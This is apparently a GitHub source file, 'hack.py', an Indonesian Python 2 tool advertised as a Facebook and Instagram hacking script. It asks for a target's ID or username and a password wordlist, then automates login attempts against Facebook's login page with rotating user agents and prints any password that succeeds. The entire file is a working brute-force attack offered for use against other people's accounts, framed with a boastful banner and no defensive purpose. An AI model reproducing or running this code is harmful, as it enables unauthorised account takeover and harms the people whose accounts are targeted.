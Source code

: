# hack.py
Script hack facebook dan instagram
#!usr
# -*- coding: UTF-8 -*-
# Mod by: ADIATMAWASARA
# team: life of programmer


import os
import sys
import time
import random
import cookielib
import mechanize

wd = "\033[90;1m" # dark
GL = "\033[96;1m" # Blue aqua
BB = "\033[34;1m" # Blue light
YY = "\033[33;1m" # Yellow light
GG = "\033[32;1m" # Green light
WW = "\033[0;1m"  # White light
RR = "\033[31;1m" # Red light
CC = "\033[36;1m" # Cyan light
B = "\033[34m"    # Blue
Y = "\033[33;1m"    # Yellow
G = "\033[32m"    # Green
W = "\033[0;1m"     # White
R = "\033[31m"    # Red
C = "\033[36;1m"    # Cyan

def runntxt(s):
        for noobs in s + '\n':
                sys.stdout.write(noobs)
                sys.stdout.flush()
                time.sleep(10. / 2100)


def banner():
    os.system('clear')
    print " "
    runntxt(GL+"              Assalamu'@laikum. ^_^")
    runntxt(WW+"   ..................  ANDA MENCOBA MENGHUBUNGI")
    runntxt(WW+"     ....       MR.K7C8NG")
    runntxt(GL+"                   UDH COLY BLM")
    runntxt(GG+"     ..........     MANDI DULU SANA")
    runntxt(Y+"    ............       DILARANG CO*I")
    runntxt(GG+"           INGAT COK ")
    time.sleep(1.5)
    print GG+"  √=============================================√"
    print GL+"  |••••••   NEW TOOLS HACK FACEBOOK BF.   ••••••|"
    print GG+"  √=============================================√"
    print WW+"  |            MOD BY: ADIATMA            |"
    print GL+"  |       Berdoa Dulu Sebelum Menggunakan       |"
    print WW+"  |        TEAM : InDoNeSiA CYBER ErRoR SyStEm            |"
    print Y+"  |             INSTAGRAM: pranata_pasha              |"
    print GL+"  |---------------------------------------------|"
    print GL+"  |        LIFE OF PROGRAMMER [ L.O.P ]         |"
    print GL+"  |---------------------------------------------|"
    print GG+"  √=============================================√"
    print GL+"  |•••••••••   HACK FACEBOOK MAS ^_^   •••••••••|"
    print GG+"  √=============================================√"

banner()

print wd+"         gunakan dengan TANGGAN "
print GG+"╭────\033[91m[\033[96m Masukkan ID\033[95m / \033[96mUsername Target\033[91m ] "
email_target = str(raw_input(GL+"\033[92m╰────➲\033[93m  "))
print " "
print "\033[92m╭────\033[91m[ \033[96mMasukkan File Wordlist \033[95m( pass.txt ) \033[91;1m]"
password_list = str(raw_input(GG+"╰────➲\033[93m "))
login = 'https://www.facebook.com/login.php?login_attempt=1'
useragents = [('Mozilla/5.0 (X11; Linux x86_64; rv:45.0) Gecko/20100101 Firefox/45.0','Mozilla/5.0 (X11; U; Linux i686; en-US; rv:1.9.0.1) Geck')]
# useragents = [('Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/60.0.3112.113 Safari/537.36','Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/60.0.3112.90 Safari/537.36','Mozilla/5.0 (Windows NT 5.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/60.0.3112.90 Safari/537.36','Mozilla/5.0 (Windows NT 6.2; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/60.0.3112.90 Safari/537.36','Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/44.0.2403.157 Safari/537.36','Mozilla/5.0 (Windows NT 6.3; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/60.0.3112.113 Safari/537.36','Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/57.0.2987.133 Safari/537.36','Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/57.0.2987.133 Safari/537.36','Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/55.0.2883.87 Safari/537.36','Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/55.0.2883.87 Safari/537.36',)]

def pil():
                print GG+" "
                g = str(raw_input("[?] Hack Fb lagi..\033[93;1m[y/n]: "))
                if g == 'y' or g == 'Y':
                    os.system('python2 brute.py')
                elif g == 'n' or g == 'N':
                    print wd+"Keluar dari program..."
                    sys.exit()
                else:
                    print RR+"Pilih yang bener cuk..."
                    pil()

def edit_wordlist():

        print GG+" "
        ed = str(raw_input("[?] Edit wordlist cuk.? \033[96;1m[y/n]: "))
        if ed == 'y' or ed == 'Y':
                os.system('nano '+password_list)
                pil()
        elif ed == 'n' or ed == 'N':
                print wd+"Keluar Dari Program..."
                sys.exit()

        else:
                print RR+"Pilih yg bener cuk..."
                edit_wordlist()

def main():
        global noobs
        noobs = mechanize.Browser()
        cj = cookielib.LWPCookieJar()
        noobs.set_handle_robots(False)
        noobs.set_handle_redirect(True)
        noobs.set_cookiejar(cj)
        noobs.set_handle_equiv(True)
        noobs.set_handle_referer(True)
        noobs.set_handle_refresh(mechanize._http.HTTPRefreshProcessor(), max_time=1)
        runn_noobs()
        life()
        print " "
        print RR+" wordlist tidak ada yg cocok..."
        print " "
def iqbalz(iqbalz_password):
  try:
 	sys.stdout.write(GG+"\n[\033[91m+\033[92m]\033[91;1m [\033[97m"+email_target+"\033[91m]\033[90m Mencoba ==> \033[91m[\033[90;1m"+iqbalz_password)
	sys.stdout.flush()
	noobs.addheaders = [('User-agent', random.choice(useragents))]
	site = noobs.open(login)
	noobs.select_form(nr = 0)
	noobs.form['email'] = email_target
	noobs.form['pass'] = iqbalz_password
	tom = noobs.submit()
	mask = tom.geturl()
	if mask != login and (not 'login_attempt' in mask):
                        print " "
			print ("\033[96m                S U C C E S S")
			print "          P A S S W O R D  F I N D "
                  	print RR+"+-------------------------------------------+"
	         	print (RR+"#\033[97m ID / Email Target:\033[92m {}").format(email_target)
        	        print (RR+"#\033[97m Password Target:\033[92m {}").format(iqbalz_password)
        	        print " "
        	        raw_input(WW+"TEKAN ENTER UNTUK KELUAR...")
			sys.exit(1)
  
  
  except KeyboardInterrupt:
      print wd+"Stop......."
      edit_wordlist()
      sys.exit()    	    
def life():
	global iqbalz_password
	password_nob = open(password_list, "r")
	for iqbalz_password in password_nob:
		password_nob = iqbalz_password.replace("\n","")
		iqbalz(iqbalz_password)		

def runn_noobs():
         global password_list

         lop = GG+"""

                  `.-://////:-.`
              .:+o+:-..````..-:+o+:.
           `:o+-`                `:+o:`
         `/o:`                      `:o/`
        -s/`  .-..`            `..--` `/s-
       /o.   `:.`.-:----------:-.``:-   .o/
      /o`    .:`    `              --    `o/
     -s.     .:`                   --     .s-
     o/     .:`                     --     +o
    .s-     :.                      `:`    -s`
    .s.     :.                      `:`    .s.
    .s-     --                      .:     -s.
     o/     `-.                    `-.     /o
     -s.     `--`                `.-`     .s-
      /o` ----``..--..`    `...--.`      `o/
       /o. `----`  `-.      `-.         .o/
        -o:  -.......        ..       `:o-
         `:o:``....--        ..     `:o:`
           `:+/-`  `-        ..  `-/+:`
              `-/+///..````..://+/-`
                  `.-::////::-.` \033[91;1m

                \033[90;1mLife Of Programmer\033[91;1m
             Powered by:\033[97m ADIATMA
      """


         print lop
         nuub = open(password_list, 'r')
         nuub = nuub.readlines()
         print wd+" [#] ID / Username Target\033[97;1m: {}".format(email_target)
         print wd+" [#] JUmlah Password saat ini\033[97;1m:", len(nuub),'password'
         print wd+" [#] Tunggu Proses Cracking\033[97;1m.........."
         print " "

if __name__=='__main__':
	main()	
